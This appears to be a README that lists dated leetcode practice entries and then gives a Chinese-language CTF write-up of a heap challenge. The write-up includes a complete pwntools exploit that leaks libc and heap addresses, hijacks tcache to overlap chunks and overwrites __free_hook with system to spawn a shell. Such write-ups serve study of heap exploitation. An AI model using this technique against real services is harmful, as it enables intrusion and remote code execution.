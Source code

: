 # code-training
2024.09.13 leetcode_43</br>
2024.09.14 leetcode_45</br>
2024.09.15 leetcode_50</br>
2024.09.17 leetcode_46</br>
2024.09.17 leetcode_47</br>
2024.09.17 leetcode_48</br>
2024.09.17 leetcode_49</br>
2024.09.19 leetcode_51</br>
2024.09.19 leetcode_52</br>
2024.10.12 leetcode_53</br>
2024.10.12 leetcode_54</br>
2024.10.12 leetcode_55</br>
2024.10.13 leetcode_56</br>
2024.10.14 leetcode_41</br>
2024.10.14 leetcode_42</br>
2024.10.14 leetcode_44</br>
2024.10.15 leetcode_57</br>
2024.10.18 leetcode_58</br>
2024.10.18 leetcode_59</br>
2024.10.18 leetcode_60</br>
2024.10.18 leetcode_61</br>
2024.10.19 leetcode_62</br>
2024.10.19 leetcode_63</br>

PWN1

打开题目发现是常规菜单堆题，edit能任意地址写0x00A2C2A

主要思路是利用写进去的00，劫持tcache管理堆，造成堆叠

根据题目菜单功能写出前置脚本

```python
from pwn import *
p=remote('',)

context(os='linux',arch='amd64',log_level='debug')
def debug():
    gdb.attach(p)
    pause()
elf = ELF('./pwn1')
libc=elf.libc
def cmd(idx):
    p.sendlineafter(b'ut your choice',str(idx))
def add(idx,cnt=b'1'):
    cmd(1)
    p.sendlineafter(b'ize :',str(idx))
    p.sendafter(b'ontent :',cnt)

def edit(cnt):
    cmd(3)
    p.sendlineafter(b'ntent :',cnt)
def delete(idx):
    cmd(2)
    p.sendlineafter(b'Index :',str(idx))
def show(idx):
    cmd(4)
    p.sendlineafter(b'Index :',str(idx))
```

leak addr

```python
add(0x500,b'11')  # 0
add(0xa0)  # 1
delete(0)
add(0xa0)  # 2
add(0xa0)  # 3
add(0xa0)  # 4
# 从unsorted切割
show(2)  
p.recvline()
libc_base = u64(p.recv(6).ljust(8, b'\x00'))-0x1EC061-0xfd0


system = libc_base+libc.sym['system']
free_hook = libc_base+libc.sym['__free_hook']

delete(3)
delete(4)  # 0xb0 4->3
 # 5   原4 tcache
add(0xa0) 
show(5)
p.recvline()
heap_base = u64(p.recv(6).ljust(8, b'\x00'))-0x331

```

为了防止 `unsortedbin` 切割后面的堆叠影响，我们需要先申请足够多的 `chunk`，以便将 `unsortedchunk` 移入 `smallbin`。接着，我们再次释放 `chunk5`，使其优先进入 `tcache`，以便后续方便地进行内容修改。

并在在heap_base+0x105的地方开edit

申请0x110，就能申请到0x*400的堆，申请0xb0也是一样的

那这就达到了堆叠的效果。

后面先申请0x110然后修改fd位为free_hook，再申请两个0xb0的堆，就能达到free_hook，修改为ogg或者system即可。

```
edit(p64(heap_base+0x105))

add(0x100, p64(free_hook))  # 9
add(0xa0, "/bin/sh\x00")  # 10
add(0xa0, p64(system))  # 11
delete(10)
```

EXP

```python
from pwn import *

context(os='linux',arch='amd64',log_level='debug')
p=remote("",)
def debug():
    gdb.attach(p)
    pause()
elf = ELF('./pwn1')
libc=elf.libc
def cmd(idx):
    p.sendlineafter(b'your choice',str(idx))
def add(idx,cnt=b'1'):
    cmd(1)
    p.sendlineafter(b'ize :',str(idx))
    p.sendafter(b'ent :',cnt)

def edit(cnt):
    cmd(3)
    p.sendlineafter(b'ntent :',cnt)
def delete(idx):
    cmd(2)
    p.sendlineafter(b'Index :',str(idx))
def show(idx):
    cmd(4)
    p.sendlineafter(b'Index :',str(idx))

add(0x500,b'11')  # 0
add(0xa0)  # 1
delete(0)
add(0xa0)  # 2
add(0xa0)  # 3
add(0xa0)  # 4
show(2)  
# 从unsorted切割
p.recvline()
libc_base = u64(p.recv(6).ljust(8, b'\x00'))-0x1EC061-0xfd0
print(hex(libc_base))

system = libc_base+libc.sym['system']
free_hook = libc_base+libc.sym['__free_hook']

delete(3)
delete(4)  # 0xb0 4->3
add(0xa0)  
# 5   原4 tcache
show(5)
p.recvline()
heap_base = u64(p.recv(6).ljust(8, b'\x00'))-0x331
print(hex(heap_base))

add(0x100)  # 6
add(0x100)  # 7
add(0x100)  # 8 把unsortedchunk取到后面不够取，进到smallbin

delete(5)  # 0xb0 5->3 or 4->3
delete(6)  # 0x110 6
edit(p64(heap_base+0x105))

# gdb.attach(r)
# pause()
add(0x100, p64(free_hook))  # 9
add(0xa0, "/bin/sh\x00")  # 10
add(0xa0, p64(system))  # 11

delete(10)


p.interactive()

```


